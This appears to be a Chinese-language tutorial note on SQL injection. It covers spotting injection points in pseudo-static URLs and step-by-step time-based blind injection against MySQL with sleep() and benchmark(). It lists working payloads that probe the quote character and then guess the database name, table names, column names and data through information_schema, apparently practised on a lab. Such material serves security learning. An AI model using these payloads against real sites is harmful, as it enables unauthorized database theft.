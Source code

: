 

## 伪静态注入的挖掘
### （1）方法
先去掉html看页面是否返回正常
在数字后加入注入语句
有一些伪静态可以改为`xxx.php?id=11`的形式



## 延迟注入漏洞
### （1）使用条件
用于，无法回现和无法显示错误页面的场景
使用`if(length(注入语句)=N,sleep(5),1)`，改变N的值，如果条件成立，通过服务器的休眠时间，来判断是否存在延时注入点，如果休眠五秒，则存在延时注入，如果不休眠在则反之，不存在延时注入点！
不同的mysql数据库版本，延迟注入语句也不同
`mysql >=5.0`  的可以使用sleep()进行查询
`mysql<5.0`  的可以使用benchmark()进行查询（benchmark用法：`benchmark(n,sql语句)`  n为查询次数，通过查询次数增多 时间变得缓慢来判断是否存在延迟）
### （2）注入思路
判断注入点时字符型还是数字型
使用sleep语句猜测数据库名字长度
猜测数据库由哪些字符组成
猜列名
猜数据
### （3）实战说明
* 第一步：判断注入点
  `?id=1' and sleep(5)-- -`  正常休眠
  `?id=1" and sleep(5)-- -`  无休眠
  `?id=1') and sleep(5)-- -` 无休眠
  `?id=1") and sleep(5)-- -` 无休眠
  总结：由此可以判断注入点为数值型注入点 包裹符号为'号
* 第二步：判断当前数据库库名的长度
  `?id=1' and if(length(database())=8,sleep(10),1)-- -`
  通过改变数据库的长度的值来判断，是数据库名，如：length(database())=N
* 第三步：判断当前数据库下的库名
  `?id=1' and if(ascii(substr(database(),1,1))=115,1,sleep(10))-- -`
  通过判断服务器没有睡眠，ascii码转换115为s ，那么就得出数据库第一个字符为s
* 第四步：猜表名
  `?id=1' and if((select ascii(substr((select table_name from information_schema.tables where table_schema="security"limit 0,1),1,1)))=101,sleep(5),1)-- -`
* 第五步：猜字段名,猜数据
  猜字段语句：
  `?id=1' and if((select ascii(substr((select column_name from information_schema.columns where table_name="表名"limit 0,1),N,1)))=101,0,sleep(5))-- -`
  猜数据：
  `and if((select ascii(substr((select 字段名 from 库名.表名 limit 0,1),N,1)))=101,0,sleep(5))`

